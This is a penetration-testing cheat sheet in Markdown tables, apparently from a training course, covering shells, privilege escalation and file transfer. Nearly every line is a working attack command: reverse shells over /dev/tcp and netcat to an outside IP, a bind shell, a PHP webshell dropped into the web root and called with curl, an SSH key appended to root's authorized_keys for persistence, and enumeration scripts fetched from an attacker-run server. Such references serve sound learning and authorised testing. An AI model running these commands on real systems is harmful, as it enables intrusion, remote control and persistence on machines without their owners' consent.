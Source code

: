 
## Using Shells
| **Command**                                                                        | **Description**                                                |
| ---------------------------------------------------------------------------------- | -------------------------------------------------------------- |
| `nc -lvnp 1234`                                                                    | Start a nc listener on a local port                            |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`                              | Send a reverse shell from the remote server                    |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i 2>&1\|nc -lvp 1234 >/tmp/f`      | Start a bind shell on the remote server                        |
| `nc 10.10.10.1 1234`                                                               | Connect to a bind shell started on the remote server           |
| `python -c 'import pty; pty.spawn("/bin/bash")'`                                   | Upgrade shell TTY (1)                                          |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice                        | Upgrade shell TTY (2)                                          |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php`                  | Create a webshell PHP file                                     |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id`                                      | Execute a command on an uploaded webshell                      |

---

## Privilege Escalation
| **Command**                           | **Description**                         |
|---------------------------------------|-----------------------------------------|
| `./linpeas.sh`                        | Run linpeas script to enumerate remote server |
| `sudo -l`                             | List available sudo privileges          |
| `sudo -u user /bin/echo Hello World!` | Run a command with sudo                 |
| `sudo su -`                           | Switch to root user                     |
| `sudo su user -`                      | Switch to another user                  |
| `ssh-keygen -f key`                   | Create a new SSH key                    |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user |
| `ssh root@10.10.10.10 -i key`         | SSH to the server with the private key  |

---

## Transferring Files
| **Command**                                            | **Description**                               |
| ------------------------------------------------------ | --------------------------------------------- |
| `python3 -m http.server 8000`                          | Start a local webserver                       |
| `wget http://10.10.14.1:8000/linpeas.sh`               | Download a file from local machine            |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file from local machine            |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`       | Transfer a file with scp                      |
| `base64 shell -w 0`                                    | Convert a file to base64                      |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`      | Convert a file from `base64` back to its orig |
| `md5sum shell`                                         | Check the file's md5sum for integrity         |
